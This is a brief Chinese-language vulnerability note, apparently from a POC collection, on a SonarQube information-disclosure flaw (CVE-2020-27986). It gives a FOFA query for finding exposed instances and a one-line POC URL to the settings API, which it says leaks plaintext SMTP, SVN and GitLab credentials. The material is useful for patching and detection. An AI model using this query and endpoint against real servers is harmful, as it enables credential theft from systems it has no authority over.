

# SonarQube api 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> SonarQube

## FOFA

> [!NOTE]
>
> app="sonarQube-代码管理"

## 漏洞复现

主页如下


漏洞POC

```
http://xxx.xxx.xxx.xxx/api/settings/values
```


可泄露的为：明文SMTP、SVN和Gitlab等敏感信息


## Goby & POC

> [!NOTE]
>
> SonarQube api Information leakage



